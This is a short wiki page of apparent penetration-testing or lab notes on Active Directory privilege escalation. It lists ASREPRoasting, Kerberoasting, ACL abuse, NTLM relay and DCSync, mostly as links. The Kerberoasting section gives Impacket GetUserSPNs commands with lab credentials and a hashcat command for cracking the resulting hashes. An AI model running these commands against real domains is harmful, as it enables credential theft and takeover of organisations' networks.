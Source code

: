 ```yaml
---
layout: wiki
title: Domain Privilege Escalation
cate1: Internals
cate2: Active Directory
description: Domain Privilege Escalation
keywords: Internals
---
```


# Domain Privilege Escalation
## ASREPRoasting
**[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)**

**Targets:** If a domain user account do not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted blob and bruteforce it offline.

## Kerberoasting
**[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)**

**Requires:** Domain Credentials

**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets containing the SPN hashes.

```
GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
GetUserSPNs.py -request 'painters.htb/riley':'P@ssw0rd' -dc-ip 192.168.110.55 -debug -dc-host PAINTERS.HTB
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

## WriteDACL
**[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)**

## Active Directory ACLs/ACEs
**[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)**

## NTLMRelay
**[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)**

## DCSync
**[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)**
